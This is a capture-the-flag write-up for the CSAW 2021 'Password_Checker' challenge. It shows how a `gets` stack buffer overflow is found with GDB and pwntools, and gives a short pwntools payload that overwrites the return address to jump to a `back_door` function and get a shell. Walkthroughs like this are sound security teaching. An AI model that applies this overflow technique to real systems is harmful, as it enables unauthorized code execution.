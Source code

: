 # Password_Checker
The goal of this challenge is to get a shell on a remote system and cat the flag.txt file. This is done through a standard b0f through the vulnerable `gets` function that will allow us to control execution flow in order to call `back_door`.

`Main` is a fairly boring function that only calls `init` and `password_checker` then returns.

![pic](2021-09-12_13-31.png)

`Password_checker` executes a string comparison to a hard coded value then returns. However it uses `gets` and reads an arbitray amount of data.

![pic](2021-09-12_13-30.png) 

GDB-GEF disass of `password_checker`:

![pic](2021-09-12_13-33.png)

Ghidra shows the buffer size of local_48 as 60. While 61 bytes will overflow the buffer there is still some distance to `$rip`. Through testing it is found that the total offset to `$rip` is 72.

We can find the offset inside GDB with pwntools:

Set a breakpoint immediently following `gets`: `b *0x00000000004011f1`

Then generate your cyclic pattern: `! python3 -c "import pwn; print(pwn.cyclic(100, n=8))" > cyclic`

Execute the program with cyclic as the input `r < cyclic`

Examine the value of `$rbp`: `x/s $rbp`

Query the offset in 8 byte chunks: `! python3 -c "import pwn; print(pwn.cyclic_find('aaiaaaaa', n=8))"`

The beginning of `$rbp` is 62 + 8 bytes for the length of `$rbp` to equel 70

Through manual `demsg` inspection I found there was 2 extra byts of padding to equal a total of 72 bytes as the offset

From here we control `$rip` and write out the next 8 bytes as the location of `back_door`: 0x0000000000401172

Our final [payload](https://github.com/CR15PR/CSAW2021/blob/main/warm-up/Password_Checker/solver.py) looks like this:
  ```back_door = p64(password_elf.symbols.backdoor)
  OFFSET = 72
  junk = b"A" * OFFSET
  
  payload = [
    junk,
    back_door,
  ]

  payload = b''.join(payload)
  p.sendline(payload)```
